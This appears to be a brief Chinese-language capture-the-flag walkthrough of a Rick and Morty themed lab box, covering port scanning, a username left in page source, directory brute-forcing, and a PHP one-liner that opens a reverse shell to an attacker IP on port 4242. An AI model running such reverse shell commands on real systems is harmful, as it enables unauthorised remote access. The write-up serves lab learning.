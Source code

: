 # 开启服务
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))


# 网页源代码信息
Note to self, remember username!

Username: R1ckRul3s


# 目录爆破
1，assets
2, robots.txt---->   Wubbalubbadubdub   Wubba lubba dub dub
在Rick and Morty中Rick有一句口头禅“Wubba lubba dub dub”，在鸟人语言里，这是“我很痛苦，请救救我”的意思
3,login.php 登录页面

# clue.txt
Look around the file system for the other ingredient.

# 其他文件夹
backups
cache
crash
lib
local
lock
log
mail
opt
run
snap
spool
tmp
www

# 交互shell
php -r '$sock=fsockopen("10.13.21.169",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'


cat "second ingredients"